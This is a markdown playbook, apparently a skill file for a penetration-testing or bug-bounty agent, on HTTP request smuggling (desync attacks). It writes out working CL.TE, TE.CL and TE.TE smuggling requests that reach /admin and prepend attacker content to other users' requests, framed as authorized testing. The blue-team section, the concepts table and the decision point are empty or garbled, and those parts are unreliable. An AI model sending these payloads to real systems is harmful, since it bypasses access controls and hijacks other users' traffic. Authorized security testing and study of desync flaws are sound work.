

# HTTP Request Smuggling (Desync Attacks)

## When to Use
- When testing web applications sitting behind reverse proxies, load balancers, or CDNs (e.g., Cloudflare, HAProxy, AWS ALB).
- To bypass WAFs, gain unauthorized access to hidden administrative panels, or hijack requests of other users sharing the same persistent connection.


## Prerequisites
- Authorized scope and rules of engagement for the target environment
- Appropriate tools installed on the attack/analysis platform
- Understanding of the target technology stack and architecture
- Documentation template ready for findings and evidence capture

## Workflow

### Phase 1: Identifying the Infrastructure (CL.TE or TE.CL)

```http
# Concept: Send overlapping headers to observe timeout behavior # Testing CL.TE (Frontend uses Content-Length, Backend uses Transfer-Encoding)
POST / HTTP/1.1
Host: example.com
Transfer-Encoding: chunked
Content-Length: 4

1
Z
Q
```
*(If the backend is TE, it processes `1\r\nZ`, then waits for the chunk terminator `0`, causing a timeout)*

### Phase 2: Exploiting CL.TE to Smuggle a Request

```http
# POST / HTTP/1.1
Host: example.com
Content-Length: 44
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: example.com


```
*(Frontend sees Content-Length of 44 and forwards the whole block. Backend sees chunked `0`, ends the first request, and treats `GET /admin` as the start of the NEXT user's request)*

### Phase 3: Exploiting TE.CL to Smuggle a Request

```http
# POST / HTTP/1.1
Host: example.com
Content-Length: 4
Transfer-Encoding: chunked

12
GET /admin HTTP/1.1
0


```
*(Frontend sees TE, parses chunks up to `0\r\n\r\n`. Backend sees Content-Length `4` (`12\r\n`), and leaves `GET /admin...` in the buffer for the next request).*

### Phase 4: Exploiting TE.TE (Obfuscating Transfer-Encoding)

```http
# POST / HTTP/1.1
Host: example.com
Content-Length: 44
Transfer-Encoding: chunked
Transfer-Encoding: xchunked

0

GET /admin HTTP/1.1
Host: example.com


```
*(Proxy 1 accepts the first TE, Proxy 2 ignores the malformed TE and falls back to CL, resulting in desynchronization).*

#### Decision Point 🔀


## 🔵 Blue Team Detection & Defense
- **HTTP/2 exclusively**: **Web Application Firewalls (WAF) Config**: **Normalize Ambiguous Requests**: Key Concepts
| Concept | Description |
|---------|-------------|
## Output Format
```
Http Request Smuggling — Assessment Report
============================================================
Target: [Target identifier]
Assessor: [Operator name]
Date: [Assessment date]
Scope: [Authorized scope]
MITRE ATT&CK: [Relevant technique IDs]

Findings Summary:
  [Finding 1]: [Severity] — [Brief description]
  [Finding 2]: [Severity] — [Brief description]

Detailed Results:
  Phase 1: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

  Phase 2: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

Risk Rating: [Critical/High/Medium/Low/Informational]
Recommendations:
  1. [Immediate remediation step]
  2. [Long-term hardening measure]
  3. [Monitoring/detection improvement]
```


## 📚 Shared Resources
> For cross-cutting methodology applicable to all vulnerability classes, see:
> - [`_shared/references/elite-chaining-strategy.md`](../_shared/references/elite-chaining-strategy.md) — Exploit chaining methodology and high-payout chain patterns
> - [`_shared/references/elite-report-writing.md`](../_shared/references/elite-report-writing.md) — HackerOne-optimized report writing, CWE quick reference
> - [`_shared/references/real-world-bounties.md`](../_shared/references/real-world-bounties.md) — Verified disclosed bounties by vulnerability class

## References
- PortSwigger: [HTTP Request Smuggling](https://portswigger.net/web-security/request-smuggling)
- DEFCON 27: [HTTP Desync Attacks (James Kettle)](https://www.youtube.com/watch?v=wRw3O6gS8yU)
